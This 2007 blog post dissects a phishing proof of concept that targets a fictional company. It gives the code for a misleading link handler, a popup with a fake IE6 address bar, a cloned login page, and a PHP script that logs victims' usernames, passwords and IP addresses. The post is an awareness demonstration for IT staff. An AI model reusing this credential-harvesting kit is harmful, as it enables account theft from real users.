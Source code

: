 ```yaml
---
title: The anatomy of a phishing attack - advanced technique
date: 2007-07-12
tag:
- security
---
```

So many phishing attempts lately are just purely pathetic - easy to guess and figure out, mis spelling and grammar issues and just poorly fashioned websites.  Although these will work on the novice web surfer, can a clever criminal actually create a phishing site/scenario that can trap the experienced members in your IT department?  

<!--more-->

In this article we're going to take apart a phishing proof of concept attempt I created at ("the triangle") (for privacy sake, however, I'm going to use another fake company as the example) which fooled (or at least surprised a good portion of the IT staff I showed it too).

I leaped ahead with my phishing example.  I didn't take the time to create a fake phishing e-mail to my target.  Instead, I just told them about the URL -- they knew they were on a proof of concept, so they were willing to visit my website.  Our main company is wholesale peanut butter and jelly sandwiches with a website at `wholesalepbj.com`.  My 'fake' URL that I provided the target with was from an e-mail from `sales@wholesalepbj.com` which told them about a new promotion we were running.  It told them to go to `diamondquality-wholesalepbj.com` for our "Diamond Quality" sale.  All they had to do was log in and get the discount.

I visited `wholesalepbj.com` and collected some key images such as the logo and a few stock photos.  I also noted their font styles and colors and their marketing type of wording.  `diamondquality-wholesalepbj.com`, on my evil server, created one marketing page talking about this amazing, yet believable sale we were running.  I then had a link that said "Click this link to go to our homepage and claim your sale promotion".  This is where the 'evil' started.

This link contained this code:

```html
<em>You are almost there!</em>  
Just click 
<a href="http://www.wholesalepbj.com" onclick="return openPBJ()">this link</a>
```

Just in case our security professional took a quick look at the code, I wanted to make sure it at least looked 'ok'... hence the name seems "innocent" enough.

This is the javascript code:

```javascript
function openPBJ() {
  window.open("redirectToPBJ.html", "PBJWindow",
              "status=0,toolbar=0,location=0,left=1,top=1,height=" 
              + screen.height + ",width=1010"
             );
  return false;
}
```

Now those clever fellows of us are starting to see where I'm going with this.  First off, we have a link that is pointing to the real website but has a javascript handler.  Our function returns `false` so we never go to the URL.  Interesting to note, in both FF2 and IE6/7, when you right click on the link and choose properties (or mouse over for that matter), it shows its source as the real website with no mention about the javascript obstructing the URL).  Finally, in this bit of code, we see a lot of 'naming' that we're using to hopefully throw off the user.  We 'redirect' to `pbj`, we name it `pbjwindow`, etc.  You'll notice the only suspect thing is `location=0` in our window popup.  On most browsers, this is going to allow us to open this window without an address bar.

At this point, I had thought about being done here... but I know that people are training themselves to look for the URL in the address bar now.  If I launched a popup window with no address bar, people might become suspicious.  So I needed to have an address bar... - or at least something that looks like one.

{{< filename-header "redirectToPBJ.html" >}}
```html
<html>
  <title>http://www.wholesalepbj.com</title>
  <frameset rows="27,*" border=0 frameborder=0>
    <frame src="top.html" scrolling='no' frameborder='0' noresize></frame>
    <frame src="www.wholesalepbj.com.html" name='pbj' scrolling='yes' frameborder='0' noresize></frame>
  </frameset>
</html>
```

If the user actually looked at the code, this page becomes more suspect.  But note, still using our misdirection, we do have the source pointing to `www.wholesalepbj.com.html`.  You may know that that still an html file, but a quick observer might miss that.  Ok, so this content was loaded into the popup window - even the title bar shows our website address.  We're done creating our frames (with no borders and resizing options).

Let's check out the `top.html` file.  This is responsible for our address bar.  I made an assumption that the user would be using Internet Explorer.  I made this proof of concept when Internet Explorer 6 was still the default, so the interface may look a little bit different now.  Also, if the user had a different version of windows or a non-classic theme, the address bar may not look like their standard address bar.  But, this is besides the point: our proof of concept was against Internet Explorer 6 with no theme.  

{{< filename-header "top.html" >}}
```html
<style type="text/css">
  body {
    margin: 0px;
    padding: 0px;
    background-color: #d4d0c8;
    font-family: tahoma;
    font-size: 11px;
    border-top: 1px solid #ffffff;
    border-bottom: 1px solid #aaaaaa;
    vertical-align: middle;
  }

  #address {
    float: left;
    height: 35px;
    padding: 3px;
  }

  #addressbox {
    width: 910px;
  }

  #gobutton {
    background-image: url('go.jpg');
    background-repeat: no-repeat;
    border: 0px;
    padding-left: 17px;
  }
  </style>
  <script type="text/javascript">
    function gotoAddress()
    {
      var v= document.getElementById('addressbox').value;
      if (v.substr(0, 7) != 'http://') {
        v = 'http://' + v;
      }
      top.opener.location.href=v;
      parent.window.close();
      return false;
    }
  </script>

  <p id="address">Address</p>
  <p id="box">
  <form name="address" action="/" onsubmit="return gotoAddress()">
    <input id="addressbox" value="http://www.wholesalepbj.com?promo=TRUE" type="text" />
    <input value="Go" id="gobutton" type="submit" />
  </form>
</p>
```

This is an interesting piece of code.  First off, let's start with what we know.  We know we need and address bar that they're used to seeing - but it has to have the website they expect to be visiting's URL in itself.  It also should function like a normal address bar (It shouldn't just be a picture, it should allow for users to type in it and possibly navigate away from our site.).

The first CSS styles the address bar like our classic theme would.  The `go.jpg` is actually an image of the go button we normally see: ![go.jpg](/uploads/2007/go.jpg)

The address bar itself is an input field, and its populated with our proper website URL.  It even has a note in their about this being a promotion, so the user may think that they are logging in to get their sale and discount.  On submit ('enter'), we return the value from the javascript function.  As we had learned earlier, we can always stop something on our website by returning false - so the form field never is submitted because our javascript returns false.

Our javascript reads in the value from the address bar.  If the user did not enter an `http://`, it adds it to the beginning of whatever they entered for them.  Then, the javascript redirects the parent to the URL they entered and closes itself.  Obviously this will look a little strange to the user - why did they type in the URL and the window closes, but we're fine with this for two reasons: 1) most users probably will just think it was a weird quirk with the browser and 2) if we're leaving our phished site, we need to provide a real functional address bar.

So we've solved our address bar issue, let's move on to spoofing the real website.

I simply went to `wholesalepbj.com` in my browser and did a file -> save as - and saved the entire web page and archive named `www.wholesalepbj.com.html`.  I uploaded this to my evil server as well.  It had to be named this so we could support the `src` attribute in our framed document **`top.html`**'s source.

Next, we edited the content of my saved copy of the website.  I changed the login form's URL to point to a page on my evil website which will log their username and password.  If the user clicks any other link besides logging in, they will bust us - they'll go to the real website... but the 'address bar' will stay the same.  (In hindsight, I should have modified the original website's code from wholesalepbj.com that I saved to make it easier to login and encourage them to get their promotion...)  These changes were simple and easy.  (Also, keep in mind, if the user looked at the source of our document, they're gonna see our frame source, not our saved version of the website's source - which could give it away.  They would have to choose a different option to actually see the real source of the saved website).

Let's take a look at what happens when the user logs in.  First off, I changed the input form field to submit to my server's version of login.php.  It contains this code:

```html
<?php
//log all of the information.
$f = fopen('test.txt', 'a');
fwrite(
  $f, 
  "----------------------------\nip: " 
    . $_SERVER['REMOTE_ADDR'] . "n" 
    . print_r($_POST, TRUE)
);
fclose($f);
?>
<script type="text/javascript">
  parent.window.location.href="http://www.wholesalepbj.com/login.php";
</script>
```

First off, the script takes care of logging the user credentials (obviously, in production, I'd be writing this to a database... but this shows a good enough example right now.  Then the page loads, and executes javascript right away, which sets and focuses the parent window's location (parent being this popup - remember, we're in frames). to the real website's login page - but not passing any credentials.  Then the user is on the real website and the damage has been done - we have their credentials.

This was just a 'quick and dirty' proof of concept I did.  There are far more ways to make it more complex, more accurate and more streamlined... (think using hidden iframes to actually login the user to the website, then redirect them to the website after a short break...).  But the proof of concept is successful - there are some phishing situations that would work against even the best and brightest of us.

I should also state that I do not endorse creating phishing websites - its both illegal and unethical.  I will not help anyone create one - I will answer technical questions about my proof of concept's implementation, however.